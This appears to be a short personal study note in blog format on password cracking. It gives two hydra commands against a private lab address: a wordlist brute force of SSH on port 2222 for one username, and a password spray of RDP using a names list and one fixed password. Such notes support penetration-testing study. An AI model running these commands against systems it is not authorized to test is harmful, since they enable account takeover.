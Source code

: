 ```yaml
---
layout: post
title: Password Cracking
titledate: 09/10/23
tags: ["infosec","offsec", "password", "hydra", "ssh", "rdp"]
---
```


#### SSH RDP FTP Brute Force

let's user hydra to try to brute force ssh on port 2222

    $ hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.50

if we are wanting to target rdp

    $ hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.50

